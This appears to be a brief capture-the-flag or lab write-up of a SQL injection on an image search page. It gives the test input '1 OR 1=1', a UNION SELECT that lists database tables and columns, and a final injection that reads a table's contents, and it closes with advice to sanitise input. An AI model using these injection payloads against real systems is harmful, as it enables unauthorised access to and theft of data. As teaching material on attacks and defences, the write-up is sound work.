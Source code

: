 On `http://$IP/?page=searchimg`. type '1 OR 1=1' into search field, this indicates it can be exploited by sql injection.

We look for the list of table and there columns using:

```
1 AND false UNION SELECT table_name, column_name FROM information_schema.columns
```

We craft the last injection where we try all the columns, and We did it.

```
1 AND false UNION SELECT comment, title FROM list_images
```

---

> How to secure:
>
> -  Sanitize input.
